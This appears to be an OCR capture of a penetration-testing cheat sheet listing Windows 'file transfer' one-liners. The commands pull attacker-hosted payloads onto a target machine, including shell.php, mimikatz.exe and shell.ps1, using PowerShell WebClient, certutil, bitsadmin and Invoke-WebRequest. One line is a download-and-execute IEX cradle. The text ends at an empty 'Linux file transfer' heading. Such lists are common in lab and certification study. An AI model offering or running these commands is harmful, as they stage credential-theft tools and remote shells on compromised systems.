 Windows file transfer:
1. powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.11:8000/shell.php', 'shell.php')
2. certutil.exe -urlcache -f http://192.168.119.138/mimikatz.exe C:\Users\mimikatz.exe
3. bitsamin /transfer pwn /download http://192.168.119.138/sc.exe C:\sc.exe   ## For win XP
4. powershell.exe $ProgressPreference = 'SilentlyContinue'; Invoke-WebRequest 'http://10.10.14.11:8000/shell.ps1' -OutFile shell.ps1
5. curl <attacker_ip/filename> -o <target path>
6. powershell.exe wget <attacker_ip/filename> -o <target path>
7. powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.../file.ps1')  ## download and execute 
  
  
Linux file transfer:
